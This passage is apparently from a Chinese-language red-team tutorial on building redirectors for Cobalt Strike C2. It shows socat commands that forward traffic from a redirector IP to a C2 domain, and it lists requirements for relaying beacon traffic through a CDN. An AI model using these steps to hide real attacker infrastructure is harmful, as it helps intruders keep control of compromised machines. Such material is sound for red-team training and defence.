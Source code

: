     ```
    # 在 54.158.156.250 上执行如下命令
    # 先安装 socat
    sudo apt-get update && apt-get install socat
    #socat 转发
    sudo socat TCP4-LISTEN:80,fork TCP4:secure.losenolove.com:80 
    ```

    直接访问[http://54.158.156.250/bar](http://54.158.156.250/bar) ，然后在 Cobal Strike 的`web log`上就可以看到访问记录了

Cobal Strike 配置 redirectors：
在`HTTP HOSTS`里添加
![](img/04c25410fd7055191ad548ed9e3ae559.png)

### 3\. 使用 CDN 实现一个 redirector

CND Redirector 要求如下

1.  网站使用 SSL 证书
2.  配置允许使用 HTTP POST 和 GET 方法
3.  避免出现问题，需要在 C2 配置文件里设置允许使用 HTTP GET 方法下载任务和回传数据给 Cobal Strike
4.  禁用所有缓存选项（避免数据不转发到服务器）
5.  清楚地知道你传输的内容

    > 注：由于某些 CDN（比如 Cloudfront 会修改 cookie）在传输过程中可能会对 HTTP header 头部的内容进行修改。这本来没什么影响除非你的 C2 设置了通过 HTTP headr 的 Cookie 字段来传输数据给 Cobal Strike。所以对于 CDN 转发的内容你得清楚地知道。
